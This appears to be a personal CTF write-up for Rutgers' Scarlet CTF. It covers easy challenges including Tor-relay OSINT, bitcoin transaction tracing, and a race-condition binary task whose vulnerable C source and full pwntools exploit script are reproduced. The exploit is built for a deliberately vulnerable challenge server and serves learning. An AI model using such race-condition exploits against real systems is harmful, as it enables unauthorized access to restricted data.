




I'd planned to allocate more time to this 3-day CTF, but I ended up only spending about a few hours total due competing obligations. As a result, I only solved a few of the easier ones. The [Scarlet CTF](https://ctf.rusec.club/) was Rutgers University's annual CTF. Like most Jeopardy-stylized CTFs, there was a range of different types of challenges, including Binex, Crypto, Forensics, OSINT, Rev, and Web (there were also the uniquely categorized "MelStudios" and "README" categories)

## Writeup

### Rule Follower

This was a basic exercise in answering True/False answers to ensure you understood the rules of the CTF.



### First_steps

This was a basic RE challenge. It's solvable by simply running the `strings` command:



### Speedjournal

This challenge was a basic binexp challenge that targets race conditions. Below is the source code that was provided to us:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <pthread.h>
#include <unistd.h>

#define MAX_LOGS 8
#define LOG_SIZE 128
#define WAIT_TIME 1000

typedef struct {
    char content[LOG_SIZE];
    int restricted;
} Log;

Log logs[MAX_LOGS];
int log_count = 0;

int is_admin = 0;

void *logout_thread(void *arg) {
    usleep(WAIT_TIME);
    is_admin = 0;
    return NULL;
}

void login_admin() {
    char pw[32];
    printf("Admin password: ");
    fgets(pw, sizeof(pw), stdin);

    if (strncmp(pw, "supersecret\n", 12) == 0) {
        is_admin = 1;

        pthread_t t;
        pthread_create(&t, NULL, logout_thread, NULL);
        pthread_detach(t);

        puts("[+] Admin logged in (temporarily)");
    } else {
        puts("[-] Wrong password");
    }
}

void write_log() {
    if (log_count >= MAX_LOGS) {
        puts("Log full");
        return;
    }

    printf("Restricted? (1/0): ");
    int r;
    scanf("%d", &r);
    getchar();

    printf("Content: ");
    fgets(logs[log_count].content, LOG_SIZE, stdin);
    logs[log_count].restricted = r;

    log_count++;
}

void read_log() {
    int idx;
    printf("Index: ");
    scanf("%d", &idx);
    getchar();

    if (idx < 0 || idx >= log_count) {
        puts("Invalid index");
        return;
    }

    if (logs[idx].restricted && !is_admin) {
        puts("Access denied");
        return;
    }

    printf("Log: %s\n", logs[idx].content);
}

void menu() {
    puts("\n1. Login admin");
    puts("2. Write log");
    puts("3. Read log");
    puts("4. Exit");
    printf("> ");
}

int main() {
    setbuf(stdout, NULL);

    strcpy(logs[0].content, "RUSEC{not_the_real_flag}\n");
    logs[0].restricted = 1;
    log_count = 1;

    while (1) {
        menu();
        int c;
        scanf("%d", &c);
        getchar();

        switch (c) {
            case 1: login_admin(); break;
            case 2: write_log(); break;
            case 3: read_log(); break;
            case 4: exit(0);
            default: puts("?");
        }
    }
}

```

Reading through the source code, we can see that - when ran - the binary presents a menu of options to the user. Among them is the ability to read from a log (option 3). However, in order to do that the user has to be logged in as an `admin` (option 1). The source code reveals the necessary password to do so (`supersecret`).

Unfortunately, the following lines show that the login is only temporary...

```c
pthread_t t;
pthread_create(&t, NULL, logout_thread, NULL);
pthread_detach(t);
```

...quickly logging out afterwards. This leaves only a *brief* window of time (far too brief to manually execute) where a user is logged-in as admin to read out the flag. However, we *can* do this through an automated exploit like so:

```python
from pwn import *
import sys

# Set context
context.binary = './speedjournal'
context.log_level = 'error' # Reduce noise

def attempt_exploit():
    # Start the process
    # If remote, use remote(host, port)
    if args.REMOTE:
        p = remote('challs.ctf.rusec.club', 22169) 
    else:
        p = process('./speedjournal')

    # Exploit payload
    # We send everything at once to minimize latency between commands
    # 1. Login
    # 2. Password
    # 3. Read log
    # 4. Index 0
    payload = b"1\n"
    payload += b"supersecret\n"
    payload += b"3\n"
    payload += b"0\n"

    try:
        # Send payload
        p.send(payload)
        
        # We need to read until we hopefully get the flag
        # The output will contain menu prompts etc.
        # We search for the flag format or the content of log 0
        
        # Read all output that comes back
        output = p.recvall(timeout=0.5)
        
        if b"RUSEC{" in output:
            print(f"[+] Success! Flag found in output.")
            # Extract flag
            flag = re.search(b"RUSEC\{.*?\}", output)
            if flag:
                print(f"Flag: {flag.group().decode()}")
            else:
                print("Could not regex extract flag, but it's in the output.")
                print(output.decode(errors='ignore'))
            return True
        else:
            # print("[-] Failed attempt.")
            pass
            
    except Exception as e:
        # print(f"Error: {e}")
        pass
    finally:
        p.close()
    
    return False

def main():
    print("Starting race condition exploit...")
    count = 0
    while True:
        count += 1
        sys.stdout.write(f"\rAttempt {count}")
        sys.stdout.flush()
        if attempt_exploit():
            break

if __name__ == "__main__":
    main()
```

### Stuck In the Middle With You

This challenge was an introductory exercise Tor nodes. We're given a string which can be plugged into metrics.torproject.org for reverse searching the `Effective Family Members` and their `First Seen` dates. The flag can be pulled by arranging the IPv4 addresses in order of `First Seen`.



### Dark Traces

This challenge was a neat forensics exercise where we were meant to find a particular exchange of bitcoins between wallets. We were given a bitcoin wallet (`427e04420fffc36e7548774d1220dad1d20c1c78dd71ad2e1e9fd1751917a035`) which could be looked up with something like [blockchain.com](https://www.blockchain.com/explorer/transactions/btc/427e04420fffc36e7548774d1220dad1d20c1c78dd71ad2e1e9fd1751917a035). The wallet in question was affiliated with [an interesting real-world sting operation](https://www.justice.gov/usao-ndtx/pr/woman-sentenced-9-years-dark-web-murder-hire-plot), the details of which we could use in order to solve the problem; our goal was to find the hash of that transaction.



Cross-referencing the story, we could infer the date of the transaction (July 27) as well as the roughly the amount of bitcoin passed (~0.358). Stepping through transactions with that wallet address [reveals a match](https://www.blockchain.com/explorer/addresses/btc/1DyodhmYorFDcPRSmJt49bs6Wh559K6FSN).

